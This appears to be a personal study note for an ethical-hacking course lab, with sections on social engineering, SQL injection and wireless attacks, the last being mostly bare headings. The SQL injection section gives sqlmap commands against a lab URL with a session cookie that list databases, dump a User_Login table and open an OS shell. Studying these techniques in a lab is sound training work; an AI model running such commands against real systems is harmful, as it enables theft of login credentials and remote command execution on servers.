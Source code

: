 Using burpsuite for this attack

## [[Social engineering]]
```setoolkit

```

## SQL Injection
Injects malicious SQL queries into the user inpot

It is possible to get from a web page the cookie by going to the developer mode in a browser and typing in the console mode:
```javascript
document.cookie
```

The following command can be run to inject sql
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=<value> ui-tabs-1=0" --dbs
```
```bash
# Retrieve tables from a discovered database
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=<value> ui-tabs-1=0" -D moviescope --tables

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=<value> ui-tabs-1=0" -D moviescope -T User_Login --dump

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=<value> ui-tabs-1=0" --os-shell


```
## Wireless network specific attacks

### Rogue Access Point attack 
Legitimate IP 

### AP MAC Spoofing
Gain unauthorized access to network where MAC address is required

### Evil twin
Mirror wireless connection

### Bluetooth
Bluesmacking
### RFID

### NFC
